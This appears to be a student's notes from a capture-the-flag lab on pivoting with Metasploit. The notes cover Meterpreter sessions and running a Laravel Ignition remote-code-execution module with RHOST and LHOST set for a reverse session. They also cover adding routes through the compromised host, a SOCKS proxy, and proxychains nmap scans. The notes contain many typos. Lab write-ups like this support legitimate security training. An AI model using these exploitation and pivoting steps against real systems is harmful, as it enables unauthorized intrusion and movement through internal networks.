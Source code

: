 # Day 9 [Pivoting] Dock the Halls

## What is Docker?
* **Docker** is a way to package applications and the associated dependencies into a single unit called an image
  * this image can be shared and run as a container either locally or remotely in prodcution
  * common way to tell if a compromised application is running in a Docker container is to verify the existence of a ```./dockerenv``` file at the root directory

## What is Metasploit?
* **Metsploit** is a powerfil penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivioting to other applications and systems
* developed and maintained by **Rapid7**

## What is a Metasploit Session?

* Often **Command Shells/Meterpreter** sessions which allow for executing commnads against the target
* can also open up other session types, ie. **SSH / WinRm**
* common console commands:
#### View sessions
```
sessions
```
#### Upgrade the last opened session to Meterpeter
```
sessions -u -1
```
#### Interact with a session
```
sessions -i [session_id]
```
#### Background the currently interactive session and go back to the Metasploit prompt
```
background
```
### What is a Meterpreter
* **Meterpreter** is an advanced payload that provides interactive access to a compromised system
  * can upload/download files or pivot utilizing a meterpreter session
  * Normal command shells do not suppoer complex operation such as pivoting
* some useful commands in a meterpreter:

#### Get information about the remote system, ie OS
```
sysinfo
```
#### Upload a file or directory
```
upload local_file.txt
```
#### Display interfaces
```
ipconfig
```
#### Resolve a set of host names on the targer to IP addresses
```
resovle remote_service1 remote_service2
```

## What is Pivoting?
* once intial entry is gained, the compromised machine can be used to send additional web traffic to previously inaccessible machines
* network scanning tools such as **nmap or arp** can be be run from this compromised machine to locate additional machines/services that were previously inaccessible


## Using Metasploit
* Metasploit can be started by running the commmand ```msfconsole``
* comman commands:

##### To search for a module, use the 'search' command
```
msf6 > search laravel
```
#### Load a modile with the 'use; command:
```
msf6 > use mutli/php/ignition_laravel_debug_rce
```
#### View the information about the module, including the module options, description, CVE details, etc
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > info
```
#### View available options to set
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options
```
#### Set the target host and logging
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set RHOST [MACHINE_IP]
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set verbose true
```
#### Set the payload listening addressl this is the IP address of the host running Metasploit
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set LHOST [LITEN_IP]
```
#### Show options again with those that are set
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options
```
#### Run or check the module
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > check
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > run
```

### Using Metasploit to pivot
* Metasploit has an interanl routing table that can be modified with the ```route``` command
  * this routing table determines wehere to send network traffic through, this way we are using the Meterpreter to pivot
* the top-level ```route``` command is not the same as the one used in a Meterpreter session, you will need to background this session before utilizing the top-level command
* Usage:

#### Example usage
```
msf6 > route [add/remove] subnet netmask ]comm/sid]
```
#### Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
```
msf6 > route add 172.17.0.1/32 -1
```
#### Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
```
msf6 > route add 172.28.10.48/29 -1
```
#### Output the routing table
```
msf6 > route print
```

### Socks Proxy

* **Socks Proxy** is an intermediate server that supports relaying networking traffic between two machines
* allows you to implement pivoting
* can be run locally or on the remote compromised machine
```
msf6 > auxiliary/server/socks_proxy
msf6 > run SRVHOST=127.0.0.1 SRVPORT=9050 VERSION=4a
```
#### Can send curl requests using the --proxy flag
```
msf6 > curl --proxy socks4a://127.0.0.1:9050 http://[MACHINE IP]
```
#### If the tool does not natively support an option for using a socks proxy, ProxyChains can intercept the tool's request to open a new network connection and route the request through a socks proxy 
```
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 [MACHINE IP]
```















